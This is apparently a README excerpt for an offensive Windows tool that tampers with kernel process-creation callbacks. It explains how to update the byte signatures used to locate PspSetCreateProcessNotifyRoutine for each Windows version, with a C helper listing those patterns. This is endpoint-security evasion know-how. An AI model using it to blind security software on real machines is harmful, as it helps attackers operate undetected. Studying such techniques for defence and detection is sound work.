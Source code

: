 </pre>

## How to Fix the code to work on your windows version (process creation callback first)

### Fixing the bytes for the byte search for your windows OS

The change needs to be done on both `findprocesscallbackroutine` and `findprocesscallbackroutinestealth`

`findprocesscallbackroutinestealth` is the function that i introduced which will modify the function inside the entry.

`findprocesscallbackroutine` is the original function from the original exploit which will null out the entry.

The original code will do a `byte search` to find the location of the function that is using the callback table (`nt!PspSetCreateProcessNotifyRoutine`) starting from a exported function close to it. 

First you need double check the bytes did not change for your windows OS.

<pre>
struct Offsets {
    <mark>DWORD64 process;</mark>
    DWORD64 image;
    DWORD64 thread;
    DWORD64 registry;
};

struct Offsets getVersionOffsets() {
    wchar_t value[255] = { 0x00 };
    DWORD BufferSize = 255;
    RegGetValue(HKEY_LOCAL_MACHINE, L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion", L"ReleaseId", RRF_RT_REG_SZ, NULL, &value, &BufferSize);
    wprintf(L"[+] Windows Version %s Found\n", value);
    auto winVer = _wtoi(value);
    switch (winVer) {
        //case 1903:
    case 1909:
        return { 0x8b48cd0349c03345, 0xe8d78b48d90c8d48, 0xe8cd8b48f92c8d48, 0x4024448948f88b48 };
    case 2004:
        return { 0x8b48cd0349c03345, 0xe8d78b48d90c8d48, 0xe8cd8b48f92c8d48, 0x4024448948f88b48 };
    case 2009:
        return { <mark>0x7340fe8341f63345</mark>, 0x8d48d68b48c03345, 0x48d90c8d48c03345, 0x4024448948f88b48 };
    default:
        wprintf(L"[!] Version Offsets Not Found!\n");

    }

}
</pre>

The first DWORD is the callback related to the process creation and it contains the bytes that the program will search for.
